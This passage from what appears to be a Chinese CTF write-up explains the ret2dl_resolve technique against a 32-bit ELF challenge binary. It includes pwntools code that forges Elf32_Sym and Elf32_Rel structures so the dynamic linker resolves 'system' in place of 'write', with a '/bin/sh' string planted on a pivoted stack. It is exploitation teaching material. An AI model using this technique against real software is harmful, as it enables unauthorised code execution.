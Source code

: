 ```
fake_Elf32_Sym_data = ""
fake_Elf32_Sym_data += p32(fake_st_name_addr)
fake_Elf32_Sym_data += p32(0) 
#后面的数据直接套用write函数的Elf32_Sym结构体
fake_Elf32_Sym_data += p32(0)
fake_Elf32_Sym_data += p8(0x12)
fake_Elf32_Sym_data += p8(0)
fake_Elf32_Sym_data += p16(0)
 
binsh_addr = new_stack_addr + 0x74 #把/bin/sh\x00字符串放在最后面

```

①reloc_arg 作用：作为偏移值，与 relplt_addr 相加得到 ELF32_Rel 结构体的地址。这里设置成 fake_reloc_arg = fake_Elf32_Rel_addr - relplt_addr，那么相加之后就可以直达我们设置的 fake_ELF32_Rel 结构体位置。

②st_name_addr 作用：作为偏移值，与 dynstr_addr 相加得到存放函数名的地址。如果按照原本的重定位，那么此处计算之后存放的应该是 write，所以这里将其改为 system，放在所有数据的最后面，将地址存放到 fake_Elf32_Sym 结构体中，设置为 fake_st_name_addr = new_stack_addr + 0x6c - dynstr_addr，这样相加之后就会定位到 new_stack_addr + 0x6c，即我们劫持栈上的 system 字符串地址处，从而劫持装载。

③r_info 作用：作为偏移值，使得结构体数组 Elf32_Sym[r_info>>8] 来找到存放 write 的结构体 Elf32_Sym。我们知道结构体数组寻址方式其实就是 addr = head_addr + size*indx，也就是首地址加上数组中元素大小乘以索引。这里由于伪造了 Elf32_Sym 结构体，所以我们的 r_info>>8 = indx 应该是 addr - head_addr/size，对应的就是 (fake_Elf32_Sym_addr - dynsym_addr)/0x10，得到最终的 r_info 为 ((fake_Elf32_Sym_addr - dynsym_addr)/0x10)<<8。

④设置 write 的 Elf32_Sym 结构体时，可以通过命令 readelf -r binary，找到 write 的 r_info 偏移为 407：

![](https://bbs.pediy.com/upload/attach/202108/904686_B7A6D84FRZ6CE74.jpg)

之后输入 objdump -s -j .dynsym level3，查找偏移为 4 的 Elf32_Sym 结构体内容：

![](https://bbs.pediy.com/upload/attach/202108/904686_JMCGTYDDN4F5KMA.jpg)

这里就是 0x804820c，对应的内容为：

```
#注释头
 
 
st_name = 31000000
st_value = 00000000
st_size = 00000000
st_info = 12
st_other = 00
st_shndx = 0000

```

▲其实在 IDA 中看的更清楚：![](https://bbs.pediy.com/upload/attach/202108/904686_TV38TX9A4EUFFSX.jpg)

同时由于搜寻数据时，需要查找类型 R_386_JUMP_SLOT，该索引为 r_info 的最后一个字节，所以需要将 r_info 的最后一个字节设置为 0x07，来通过检查。

▲以下为两个结构体内容：

```
#注释头
 
#Elf32_Rel结构体：大小为0x08
typedef struct {
    Elf32_Addr r_offset;   // 对于可执行文件，此值为虚拟地址
    Elf32_Word r_info;     // 符号表索引
} Elf32_Rel;
 
 
#Elf32_Sym结构体：大小为0x10
typedef struct
{
    Elf32_Word st_name;      // Symbol name(string tbl index)
```